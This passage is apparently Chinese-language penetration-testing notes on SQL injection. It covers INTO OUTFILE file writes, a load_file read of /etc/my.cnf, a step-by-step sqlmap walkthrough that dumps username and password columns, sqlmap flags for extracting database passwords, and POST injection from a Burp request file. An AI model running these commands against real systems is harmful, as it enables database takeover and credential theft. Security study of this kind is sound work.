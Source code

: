 



**写文件**

into outfile 将select的结果写入到指定目录的1.txt中

在一些没有回显的注入中可以使用into outfile的结果写入文件中，然后获得权限



**读文件**

Load_file 函数可以读文件

`select load_file('/etc/my.cnf');`







#### sqlmap的使用

> sqlmap 是一个开源渗透测试工具，它可以自动检测和利用 SQL 注入漏洞并接管数据库服务器。它具有强大的检测引擎，同时有众多功能，包括数据库指纹识别、从数据库中获取数据、访问底层文件系统以及在操作系统上带内连接执行命令。

项目地址： https://github.com/sqlmapproject/sqlmap

<img src="/Users/zhoumengying/Documents/imgs/sqlmap.png" alt="sqlmap" style="zoom:75%;" />





- 第一步：`-u "xxx" ` -u 参数指定地址然后进行注入
- 第二步 `-u "xxx" --current-db` 获取到当前数据库信息
- 第三步 `-u "xxx" -D dbvuln --tables` 获取数据库中的表名
- 第四步 `-u "xxx" -D dbvuln -T users --columns` 获取表名中的字段
- 第五步 `-u "xxx" -D dbvuln -T users -C username,password --dump ` 获取表中的内容 

   

----



- –is-dba 当前用户权限（是否为root权限）
- –dbs 所有数据库
- –current-db 网站当前数据库
- –users 所有数据库用户
- –current-user 当前数据库用户
- –random-agent 构造随机user-agent
- –passwords 数据库密码
- –proxy http://local:8080 –threads 10 (可以自定义线程加速) 代理
- –time-sec=TIMESEC DBMS响应的延迟时间（默认为5秒）



**post注入**

使用burpsuite截取包，然后保存文件为1.txt(文件名随便取)，再使用 `sqlmap -r 1.txt --dbs `


